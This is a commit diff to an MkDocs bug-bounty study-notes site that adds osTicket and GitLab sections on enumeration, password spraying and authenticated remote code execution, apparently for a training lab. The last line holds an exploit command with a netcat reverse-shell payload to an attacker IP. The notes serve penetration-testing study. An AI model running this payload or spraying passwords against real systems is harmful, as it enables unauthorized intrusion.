

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/cwes-study-notes/attacking-common-applications.md, in a window 1280 px wide and 1400 px high, scrolled down 19714 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 20130 px from its top, so only the background shows below that.

Commit message:
add osticket and gitlab sections to attacking common applications page

````diff
--- a/docs/cwes-study-notes/attacking-common-applications.md
+++ b/docs/cwes-study-notes/attacking-common-applications.md
@@ -635,3 +635,37 @@
 - Default creds ```prtgadmin:prtgadmin```
 - Try weak passwords for ```prtgadmin```
 - Try know exploits for version
+
+## osTicket
+
+### Footprinting/Discovery/Enumeration
+
+- Can show up in Eyewitness report which can contain ```OSTSESSID``` cookie
+- Page footers may show "powered by osTicket" or "Support Ticket System"
+- Will not show up in nmap scan
+
+## Gitlab
+
+### Discovery & Enumeration
+
+- Browse to ```gitlab.<domain>``` to discover if a gitlab instance is running
+- Try registering an account or signing in with other found credentials/try low risk exploit such as [this](https://www.exploit-db.com/exploits/49821) or its [python3 version](https://github.com/dpgg101/GitLabUserEnum)
+- Can also use the registration form to enumerate valid users ```/users/sign_up``` will show already taken usernames
+- Browse to ```/help``` to discover version number
+- Once logged in browse to ```/explore``` to dig through public projects for anything of interest
+- Check the other tabs ```groups```, ```snippets```, and ```help```
+
+### Attacking GitLab
+
+#### Username Enumeration/Password Spray
+
+- 10 minute lockout after 10 failed login attempts by default
+- Controlled password spray with weak passwords against found usernames
+
+### Authenticated Remote Code Execution
+
+- [Exploit](https://www.exploit-db.com/exploits/49951) for GitLab Community Edition version 13.10.2 and lower
+- Requires valid username and password (may work with self-registered credentials)
+```bash
+python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u Testface -p Testface -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
+```
````
